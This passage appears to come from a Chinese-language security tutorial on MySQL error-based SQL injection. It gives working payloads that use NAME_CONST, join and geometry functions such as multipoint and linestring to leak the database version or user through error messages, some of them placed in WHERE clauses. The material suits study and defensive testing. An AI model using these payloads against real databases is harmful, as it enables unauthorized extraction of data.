 因此我们可以利用这一特点来利用报错带出我们的信息：

```text
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x
```

![](../../../.gitbook/assets/tu-pian%20%2869%29.png)

或者可以利用`join` 来查询

```text
select * from (select * from(select name_const(version(),0)) a join (select name_const(version(),0))b)c;
```

![](../../../.gitbook/assets/tu-pian%20%285%29.png)

#### 几何函数报错： <a id="toc-5"></a>

mysql有些几何函数，例如：

`geometrycollection()`，`multipoint()`，`polygon()`，`multipolygon()`，`linestring()`，`multilinestring()，`这些函数对参数要求是形如\(1 2,3 3,2 2 1\)这样几何数据，如果不满足要求，则会报错。经测试，在版本号为`5.5.47`上可以用来注入，而在`5.7.17`上则不行：

```text
select multipoint((select * from (select * from (select version())a)b));
select GeometryCollection((select * from (select * from (select version())a)b));
select polygon((select * from (select * from (select version())a)b));
select * from user where id=1 and multipolygon((select * from(select * from(select user())a)b));
select * from user where id=1 and linestring((select * from(select * from(select user())a)b));
select * from user where id=1 and multilinestring((select * from(select * from(select user())a)b));
```
